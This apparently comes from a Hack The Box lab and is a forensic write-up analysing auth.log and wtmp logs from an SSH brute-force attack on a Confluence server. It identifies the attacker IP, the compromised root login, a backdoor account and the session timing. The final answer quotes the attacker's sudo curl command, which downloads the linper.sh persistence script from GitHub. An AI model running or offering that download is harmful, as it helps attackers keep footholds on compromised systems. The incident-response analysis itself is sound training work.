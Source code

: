 # Scenario
You will familiarize yourself with Unix auth.log and wtmp logs. We'll explore a scenario where a Confluence server was brute-forced via its SSH service. After gaining access to the server, the attacker performed additional activities, which we can track using auth.log. Although auth.log is primarily used for brute-force analysis, we will delve into the full potential of this artifact in our investigation, including aspects of privilege escalation, persistence, and even some visibility into command execution.

# Goal
The goal is to analyze the auth.log and the wtmp log files and answer the following questions as part of the incident response.

# Response
### Analyzing the auth.log, can you identify the IP address used by the attacker to carry out a brute force attack?
It appears that the IP 65.2.161.68 continuously keeps failing to authenticate. These logs show someone trying to log in as admin, and the system saying that there is no user admin. These failed login run from 06:31:33 to 06:31:42, suggesting a brute force tool or script is running, as a user at the keyboard could not type that fast:
![image](https://github.com/marufrahmangit/hack-the-box/assets/25085219/9de73f1f-2085-4d7c-8c9b-5e7dce21dc89)

### The brute force attempts were successful, and the attacker gained access to an account on the server. What is the username of this account?
Successful authentication as the user `root` at 06:32:44:
![image](https://github.com/marufrahmangit/hack-the-box/assets/25085219/d93da765-46b4-40d2-8fb7-57972efc20b1)

### Can you identify the timestamp when the attacker manually logged in to the server to carry out their objectives?
2024-03-06 06:32:45

### SSH login sessions are tracked and assigned a session number upon login. What is the session number assigned to the attacker's session for the user account from Question 2?
37
![image](https://github.com/marufrahmangit/hack-the-box/assets/25085219/c543c85a-d4a6-465d-bbcc-c7d64c4478bc)

### The attacker added a new user as part of their persistence strategy on the server and gave this new user account higher privileges. What is the name of this account?
cyberjunkie.
![image](https://github.com/marufrahmangit/hack-the-box/assets/25085219/1531bc2f-6cad-4d58-af23-677b6c24ce55)

### What is the MITRE ATT&CK sub-technique ID used for persistence?
[T1136.001](https://attack.mitre.org/techniques/T1136/001/)

![image](https://github.com/marufrahmangit/hack-the-box/assets/25085219/78b15345-d619-4edb-b589-fb27cd95a572)

### How long did the attacker's first SSH session last based on the previously confirmed authentication time and session ending within the auth.log? (seconds)
Total time of the session is 06:32:45 - 06:37:24, so, 279 seconds

### The attacker logged into their backdoor account and utilized their higher privileges to download a script. What is the full command executed using sudo?
/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh
![image](https://github.com/marufrahmangit/hack-the-box/assets/25085219/2265c87d-7012-445c-a50f-c3169a048d31)
